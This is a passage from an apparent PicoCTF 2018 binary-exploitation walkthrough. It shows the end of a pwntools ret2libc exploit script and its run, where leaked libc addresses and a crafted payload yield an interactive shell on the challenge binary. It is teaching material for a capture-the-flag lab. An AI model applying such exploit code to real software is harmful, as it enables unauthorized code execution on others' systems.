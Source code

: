 ```python
    p32(0x00),  #"arg2"
    p32(0x00)]) #"arg3"

print("payload: " + enhex(payload))

p.sendline(payload)
p.clean()

p.interactive()
```

```
/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33$ python ~/got2learnlibc_exploit.py
[+] Starting local process './vuln': pid 140986
puts @ 0xf7662150
execve @ 0xf76b2670
payload: 5555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555555570266bf755555555302057560000000000000000
[*] Switching to interactive mode
$ ls
flag.txt  vuln    vuln.c
```
{:.contains-term}

For the most part, we will be using `pwntools` for the remaining challenges. Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.